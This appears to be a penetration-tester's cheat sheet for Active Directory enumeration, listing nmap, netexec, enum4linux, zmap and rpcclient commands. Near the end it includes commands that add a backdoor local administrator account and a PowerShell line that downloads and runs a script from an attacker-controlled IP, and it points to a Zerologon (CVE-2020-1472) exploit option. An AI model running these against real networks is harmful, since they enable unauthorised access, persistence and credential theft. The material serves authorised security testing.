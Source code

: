 # First Steps

## Network Enumeration

```bash
nmap -sP -p $ip #ping scan
nmap -Pn -n -T4 -v3 $ip #quick scan
rustscan -a $ip
```

## Domain Name

```bash
nxc smb $network_ip
```

## Domain Controllers

They are usually DNS Servers. They have usually LDAP listening port 389.

```bash
nmap -p53,389 $network_ip

nmcli dev show eth0/interface

nslookup -type=SRV _ldap._tcp.dc.msdcs.<domain.local>
```

## Enumerate alive machines

```bash
sudo zmap -i <iface> -P 2 --probe-module=icmp_echoscan -B 1M --max-targets=10000000 -o targets_rfc1918.txt $network_ips
```

## Enumerate services

### DNS

```bash
# test for dns attacks
dnsenum $domain -f /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt --dnsserver $dns_server_ip > dnsenum.txt
```

### `enum4linux`

Tool for enumerating information from Windows and Samba systems.

#### Basic commands

```bash
# Default command that you will use almost always
enum4linux -a 0.0.0.0
​
# list groups
enum4linux -G 0.0.0.0
​
# list windows shares
enum4linux -S 0.0.0.0
```

### `netexec`

> Post-exploitation tool that helps automate assessing the security of large Active Directory networks.

{% embed url="https://github.com/Pennyw0rth/NetExec" %}

#### Installation

{% embed url="https://www.netexec.wiki/getting-started/installation/installation-on-unix" %}

```bash
# only in upgraded Windows servers from 2003 - No auth attempt
# to get password policy, minimum length, account lockout threshold
nxc smb $domainOrIP --pass-pol -u '' -p ''	

# The usernames with RID greater than 1000 into a username file
nxc smb $domainOrIP -u robot -p '' --rid-brute | grep  SidTypeUser	

# Enumerate a user share
nxc smb $domainOrIP -u $user -p $passwd --shares
```

### UO | Users Enumeration

```bash
GetADUsers.py $domain/ -dc-ip $ip

# More infos with rpcclient
rpcclient -U "" -N $ip

# Get all of the OUs in a domain
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A

### Create a new user in admin groupe 

# username:password = anon:p3nT3st!
net user anon p3nT3st! /add
net localgroup administrators anon /add

net user anon p3nT3st! /add;net localgroup administrators anon /add

If you cannot import module start a webserver and
IEX(New-Object Net.Webclient).downloadstring('http://<IP>/Powershell.ps1')
```

## Tools

### AD Enum

* ASREPRoasting
* Kerberoasting
* Dump AD as BloodHound JSON files
* Searching GPOs in SYSVOL for cpassword and decrypting
* Run without creds and attempt to gather for further enumeration during the run
* Sample exploits included:
  * CVE-2020-1472

{% embed url="https://github.com/CasperGN/ActiveDirectoryEnumeration" %}

### Install

```bash
pip3 install ActiveDirectoryEnum
python -m ade

# query exploit for poc
python -m ade --exploit cve-2020-1472
```
